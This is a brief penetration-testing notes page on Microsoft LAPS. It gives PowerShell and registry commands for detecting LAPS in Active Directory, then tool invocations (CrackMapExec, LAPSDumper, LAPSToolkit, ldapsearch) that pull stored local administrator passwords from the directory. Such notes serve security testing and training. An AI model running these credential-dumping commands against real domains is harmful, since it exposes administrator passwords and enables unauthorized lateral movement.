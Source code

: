 # Local Administrator Password Solution (LAPS)

Microsoft LAPS provides automated local administrator account management for every computer in Active Directory. The client-side piece of LAPS on the computer generates a random secure password and stores it in the AD attribute for the computer password. This is considered secure and mitigates an attacker passing the local administrator hash throughout the domain.

### Enumerating LAPS

```powershell
# Using the cmdlet Get-ADObject
Get-ADObject 'CN=mc-mcs-admpwd,CN=Schema,CN=Configuration,DC=dc,DC=parzival,DC=com' 

# Check if the DLL is installed locally
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
dir "C:\Program Files\LAPS\CSE"

# Checking registry
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```

### Retrieving LAPS Passwords

```bash
# Retrieve password using CrackMapExec
cme ldap $dc -u $username -p $password -M laps

# https://github.com/n00py/LAPSDumper
python laps.py -u $username -p $password -d $domain

# https://github.com/leoloobeek/LAPSToolkit
Get-LAPSComputers

# Manually with LDAP
ldapsearch -x -h $host -D $user -w $password -b "dc=$domain,dc=com" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

### References

{% embed url="https://adsecurity.org/?p=1790" %}
